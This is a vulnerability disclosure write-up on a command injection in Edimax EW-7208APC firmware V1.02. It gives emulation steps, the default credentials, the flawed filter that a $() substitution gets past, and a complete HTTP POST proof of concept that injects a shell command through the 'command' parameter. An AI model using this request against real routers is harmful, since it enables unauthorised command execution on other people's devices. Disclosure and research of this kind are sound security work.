 ## **Description**

A command injection vulnerability was discovered in the Edimax EW-7208APC firmware version ​**V1.02**. The vulnerability arises from the improper input validation of the `'command'` parameter in the 'mp' interface of the file webs.

## ​**Affected Product**

- ​**Brand**: EDIMAX
- ​**Product**: EW-7208APC
- ​**Version**: V1.02

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d Edimax ../FIRMWARE/EW-7208APC_v1.02.bin
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `1234`

The result of the simulation is as follows: 
![sim_res](./img/sim_res.png)
## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'mp' is below:
![vulner_code.png](./img/vulner_code1.png)
![vulner_code.png](./img/vulner_code2.png)
- ​**websGetVar** retrieves POST parameters 'command'.
- The code will replace `;` with `\0`, so we bypass it by including the command in $(), resulting a command injection in this place

## **Proof of Concept (PoC)**

### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test.
Example package
```http
POST /goform/mp HTTP/1.1  
Host: 192.168.2.1  
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 36
Origin: http://192.168.2.1
Authorization: Basic YWRtaW46MTIzNA==  
Connection: close  
Referer: http://192.168.2.1/adv_wireless.asp
Upgrade-Insecure-Requests: 1  
  
command=$(echo mp>/poc.txt)
```

After the request we can see the file 'poc.txt' been created in the root directory.
![result](./img/result.png)